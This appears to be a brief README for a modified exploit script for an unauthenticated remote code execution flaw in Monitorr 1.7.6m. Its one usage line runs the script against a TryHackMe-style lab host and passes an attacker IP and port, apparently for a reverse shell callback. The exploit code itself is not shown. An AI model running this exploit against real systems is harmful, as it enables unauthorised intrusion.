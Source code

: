 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``python exploit.py https://monitorr.robyns-petshop.thm 10.6.27.220 443``
